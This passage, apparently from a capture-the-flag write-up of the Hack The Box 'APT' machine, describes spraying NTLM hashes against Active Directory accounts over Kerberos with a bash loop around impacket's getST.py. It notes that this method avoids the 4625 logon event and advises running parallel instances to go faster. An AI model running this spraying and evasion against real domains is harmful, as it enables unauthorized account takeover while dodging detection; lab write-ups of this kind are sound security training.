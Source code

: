 *When trying to bruteforce the hashes,* we get blocked.

![bruteforce-defenses](/assets/APT/bruteforce-defenses.jpg)

But did you notice something? *even with that many attempts,* the account **didn't get locked out ;]** we know so because locked out accounts give a **different error message**.

We're going to try bruteforcing using **Kerberos**. It's different from using SMB because **it doesn't leave a 4625 logon event behind.**

I had to reset the machine to get the block removed. Perhaps it was configured for a ban time that was too long.

We're going to do this using impacket's `getST.py` script. By building a bash wrapper around it to enable bruteforcing with a hash since that feature isn't in `kerbrute` at the moment.

Here's what it looks like:

```bash
index=1
for hash in $(cat hashes.txt); do
	echo "[*] [$index/4000] Spraying hash $hash for Administrator"
  	getST.py -dc-ip apt -spn cifs/apt.htb.local htb.local/administrator -hashes ":$hash" | grep -Pv 'not found|Getting TGT|PREAUTH_FAILED|Copyright 2022'| sed -r '/^\s*$/d'
	echo "[*] [$index/4000] Spraying hash $hash for Henry.vinson"
  	getST.py -dc-ip apt -spn cifs/apt.htb.local htb.local/Henry.vinson -hashes ":$hash" | grep -Pv 'not found|Getting TGT|PREAUTH_FAILED|Copyright 2022'| sed -r '/^\s*$/d'  	
  	((index=index+1))
done
```

*In the script,* we request a ticket for SMB access, clear out any unnecessary output as well as print out some progress messages.

**Note:** To speed things up, you are advised to break down the hashes list into smaller chunks and run multiple instances of the script in parallel. Or else that process would take significantly much more time.

The **Kerberos bruteforce** worked well and we didn't get blocked. We got a working hash right near the end of the list (the 3558th entry).

![kerberos-hash-brute](/assets/APT/kerberos-hash-brute.jpg)
